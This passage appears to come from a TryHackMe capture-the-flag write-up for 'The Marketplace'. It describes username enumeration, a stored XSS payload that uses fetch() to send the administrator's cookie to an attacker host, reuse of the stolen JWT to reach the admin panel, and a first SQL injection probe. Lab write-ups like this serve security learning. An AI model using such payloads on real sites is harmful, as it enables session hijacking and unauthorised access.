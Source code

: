 I continued analyzing the login mechanism and found that the error message indicated whether the username exists or not. Since I had already found two usernames, I was able to confirm both as valid.  then attempted a brute-force attack using Hydra but was unsuccessful due to this error message:
```text
No brute forcing please!
```

I created a test user and logged in. The only action I could perform was listing new items. I successfully listed a new item and, after analyzing it, reported it. A few seconds later, the administrator responded:
```text
From system
Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!
```

Since I knew an administrator would review the report, I considered stealing the cookie through a Cross-Site Scripting (XSS) attack. To do this, I created a new item called `test`, and included the following payload in the description:
```bash
<script>fetch('http://[attackerip]/test?cookie=' + document.cookie);</script>
```

I started a Python web server on my local machine and reported the item again. Shortly afterward, my web server received the administrator's JWT:

![Received JWT](/assets/img/tryhackme/TheMarketplace/thm_themarketplace_2.jpg)


After inserting the JWT in the request, I was able to access the admin panel and retrieved the first flag:

![Admin Access](/assets/img/tryhackme/TheMarketplace/thm_themarketplace_3.jpg)

### SQL injection

While analyzing the admin panel, the only feature I could access was user control. When accessing a user, the user's `ìd` was shown as the value of the user parameter. I inserted a quotation mark at the end of the number and received the following error message: 
```html
/admin?user=1'

<h2>
  Error: ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near &#39;&#39;&#39; at line 1
</h2>
```
